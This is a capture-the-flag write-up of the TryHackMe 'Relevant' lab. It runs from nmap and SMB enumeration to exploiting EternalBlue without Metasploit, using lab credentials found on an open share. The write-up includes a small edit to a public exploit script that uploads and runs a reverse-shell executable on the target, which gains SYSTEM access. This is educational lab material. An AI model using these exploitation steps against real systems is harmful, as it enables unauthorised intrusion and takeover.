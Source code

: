 ```yaml
---
title: THM - Relevant
date: 2022-08-07 21:00:00 +0200
categories: [Writeups]
tags: [tryhackme, tutorial]     # TAG names should always be lowercase
---
```


The Relevant briefing mentiones that everything can be completed without Metasploit. Since OSCP only allows very limited use of the Metasploit Framework I took this as a challenge.
Below the relevant (pun intended) MITRE ATT&CK:


| Reconnaissance | Lateral Movement | Credential Access |
|----------------|----------------|-------------|
| [T1595](https://attack.mitre.org/techniques/T1595/)          | [T1210](https://attack.mitre.org/techniques/T1210/)         | [T1552.001](https://attack.mitre.org/techniques/T1552/001/)         |     


## Reconnaissance
Starting the usual nmap scan results in the following ports being open:
```
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
rpc3389/tcp open  ms-wbt-server
```
Visting the website shows the default static IIS page. So no obvious entrypoint yet, but that probably means that the configuration of the webserver is also default after installation.
Looking at the HTTP headers we see that it is running the latest version of IIS. So no known vulnerabilities:
```
HTTP headers
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET
```
Continuing with enumaring SMB using nmap NSE scripts we get already some usefull information such as OS version, computername and sharenames:
```
Host script results:
| smb-enum-sessions: 
|_  <nobody>
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.33.189\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.33.189\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.33.189\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: <none>
|     Current user access: READ/WRITE
|   \\10.10.33.189\nt4wrksv: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|_    Current user access: READ/WRITE
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-08-05T08:44:28-07:00
```
Next I used the nmap NSE scripts to check for SMB vulnerabilities:
* ms10-054 (remote memory corruption), not vulnerable
* ms10-061 (print spooler service impersonation), not vulnerable
* ms17-010 (EternalBlue), **vulnerable**

## Initial access

We found an entry point! The host is vulnerable for the EternalBlue exploit. I have already used this exploit with the help of Metasploit, which is pretty straight forward, but never without.
A quick exploit-db search reveals a verified Python script by author Sleepya. In the first few lines the author comments a git link for a depedency for mysmb.py. After downloading this and installing Impacket I quickly ran into my first issue:
```shell
File "/TryHackMe/offensive-pentesting/relevant/mysmb.py", line 73, in puttrans_data
transData = ('\x00' * padLen) + parameters
TypeError: can only concatenate str (not "bytes") to str
```
After hours of troubleshooting and Stackoverflow it was clear that the latest version of the impacket dependency was written for Python3, but mysmb.py is written in Python2.
Eventually I decided to just downgrade impacket to the latest Python2 version (0.9.24). Only now I ran into my next issue:
```
impacket.smb.SessionError: SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
```
The exploit does have an option to make authenicated SMB request, but of course this requires credentials...
So where do fix us some credentials? Back to enumarating it is. First by starting Gobuster, but the usual wordlists do not reveal anything.
Also an IIS specific wordlist leaved me empty handed. 

Back to SMB, there was one non-default share `nt4wrksv` which is interesting. Connecting to it with the guest account works and there is one file in there named `passwords.txt`.
Exactly what we need, what a coincidence! The file contains base64 encoded credentials. Below decoded:
```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```
Adjusting the script with the credentials works! It created an empty pwnd.txt file on the target host.
With the help of a [blog](https://redteamzone.com/EternalBlue/) written by STRIK1R I adjusted the script to upload a reverse shell to connect back to my computer.

```python
def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()
    smb_send_file(smbConn, 'shell.exe', 'C', '/test.exe')
    service_exec(conn, r'c:\test.exe')
```

All that remains is to escalate privileges and...no wait, we have the NT Authority\System account! 
The flags are now easily grabbed by going to the desktop folder for user Bob and Administrator.